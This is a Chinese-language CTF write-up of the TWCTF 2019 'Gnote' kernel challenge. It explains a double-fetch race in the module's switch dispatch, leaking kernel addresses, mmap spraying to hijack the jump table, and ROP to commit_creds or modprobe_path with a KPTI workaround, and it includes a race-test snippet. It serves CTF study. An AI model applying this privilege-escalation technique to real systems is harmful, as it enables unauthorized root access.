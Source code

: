 # Gnote - TWCTF 2019

有代码，好耶

看源码发现写的很严谨，该加锁的加了锁，该判断的加了判断

看上去有风险的事情，一个是没有通过 copy_from_user 处理输入（这个真的是问题吗。。），因此user input buf可以被设置成一个高位kernel地址，但是后面出现的严格的校验，看上去无法直接出现问题

一个是 kmalloc 出来的内容，没有立即赋值或者清零

因此，必须要逆向ko看一下，把switch和各种函数入参修一修，会发现有double-fetch的问题可以竞争绕过select的判断

# leak && rip

他的启动脚本在 /init 下，修改一下 kptr_restrict 和 setsid cttyhack setuidgid 00 sh 使得我们获得root并看到基址

存在读未初始化的read，leak就有很多种办法了，后面在统计吧，我还是用简单快速的 seq_operations 

控制RIP在于竞争0x19和0x1E的判断和跳转

```
.text:0019 ; 7:   if ( *(_DWORD *)user_buffer <= 5u )
.text:0019                 cmp     dword ptr [rbx], 5
.text:001C                 ja      short def_28    ; jumptable 0028 default case, case 0
.text:001E ; 9:     switch ( (unsigned __int64)note_write_jpt[*(unsigned int *)user_buffer] )
.text:001E                 mov     eax, [rbx]
.text:0020                 mov     rax, ds:note_write_jpt[rax*8]
.text:0028                 jmp     rax             ; switch 5 cases
```

先写一个竞争测试一下

```
unsigned int G_race_buffer[2];
bool G_race_condition = true;
void * race_thread(void * race_data) {
    while(G_race_condition) {
        G_race_buffer[0] = (unsigned long)race_data;
    }
}
.....
{
    //race
    printf("[+] goto race");
    pthread_t thr;
    pthread_create(&thr, 0, race_thread, (void *)0xFFFFFFFF);
    G_race_buffer[0] = 0;
    G_race_buffer[1] = 0;    
    
    for (int i = 0; i < 0x100000; i++) {
        G_race_buffer[0] = 0;
        write(fd, G_race_buffer, sizeof(G_race_buffer));
    }
    G_race_condition = false;
}
```

别人的WP有用汇编写的，的确理论上用汇编的指令更少，竞争频率更高，但是我觉得在这种条件宽松的场景下，差不了多少，不要小看编译器的优化程度，没必要。

相关写法的文档：https://gcc.gnu.org/onlinedocs/gcc/Extended-Asm.html#InputOperands

上面这样会出现kernel-panic，那么控制RIP到什么地方？题目开了SMEP却没有开SMAP，因此常规的栈迁移再到user-mode rop 是可以实现的

看一下jump-table的计算方法

```
mov     rax, ds:note_write_jpt[rax*8]
jmp     rax
```

题目.ko模块加载地址不是固定的，因此note_write_jpt的地址也不会固定，希望race指定出偏移显然不可行 但是 在KALSR下,kernel-module地址的随机性只有3个BYTE 这里我用Z来表示 0xffffffffc0ZZZ000 大概是20M不到的地址空间，这个地址空间完全可以通过user-mod环境mmap喷射地址实现rip的控制

```
计算可用的喷射地址，我是用静态编译不存在libc占位的问题

那能用的地址从0x2000000 ~ 0x3000000 足够了

      0x400000           0x401000 r--p     1000 0      
      0x401000           0x4af000 r-xp    ae000 1000   
      0x4af000           0x4d9000 r--p    2a000 af000  
      0x4da000           0x4dd000 r--p     3000 d9000  
      0x4dd000           0x4e0000 rw-p     3000 dc000  
      0x4e0000           0x4e6000 rw-p     6000 0      [anon_004e0]
     0x1029000          0x104c000 rw-p    23000 0      [heap]
0x7ffdb5341000     0x7ffdb5362000 rw-p    21000 0      [stack]
0x7ffdb53aa000     0x7ffdb53ad000 r--p     3000 0      [vvar]
0x7ffdb53ad000     0x7ffdb53af000 r-xp     2000 0      [vdso]
```

最后通过一次通用栈迁移+ROP的模板即可实现了，目标是修改mod_probpath, 或者通过ROP执行commit_cred(prepare_kernel_cred(0)) ,这2个差不太多

但是还有一个问题，在我返回user-mode的时候 程序会出现 segment-fault的问题，马上意识到这题开了KPTI，绕过的办法有很多，这里都写到rop了因此注册一个专门的sigment-fault信号处理函数用于解决这个问题。

通过dmesg查看是否开启KPTI
```
dmesg | grep -q "Kernel/User page tables isolation: enabled" \
&& echo "patched :)" || echo "unpatched :("
```

# ref

https://rpis.ec/blog/tokyowesterns-2019-gnote/

https://balsn.tw/ctf_writeup/20190831-tokyowesternsctf/#gnote